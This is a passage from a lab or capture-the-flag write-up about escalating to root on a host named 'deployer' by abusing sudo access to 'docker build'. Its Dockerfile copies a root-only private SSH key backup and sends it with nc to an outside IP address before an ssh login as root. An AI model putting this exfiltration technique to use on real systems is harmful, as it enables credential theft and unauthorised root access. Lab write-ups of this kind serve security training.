 We can first view the images present:

```
shanah@deployer:~$ sudo docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d4ff818577bc   2 years ago   5.6MB
```

I read the documentation for `docker build`, and learned that we need a `Dockerfile` to run it:

{% embed url="https://docs.docker.com/engine/reference/commandline/build/" %}

The `/opt` directory also had a `id_rsa.bak` file present:

```
shanah@deployer:/opt$ ls -la
total 16
drwxrwxrwx  3 root root 4096 May 11  2021 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
drwx--x--x  4 root root 4096 May 11  2021 containerd
-r--------  1 root root 2602 May 11  2021 id_rsa.bak
```

I think the goal is to read this file somehow. Here's the `Dockerfile` I used:

```
FROM alpine

COPY id_rsa.bak /tmp/id_rsa.bak
RUN cat /tmp/id_rsa.bak | nc 192.168.45.196 21
```

Then, we can run `sudo /usr/bin/docker build .` within `/opt` where the `Dockerfile` is.&#x20;

<figure><img src="../../../.gitbook/assets/image (45) (8).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `root`:
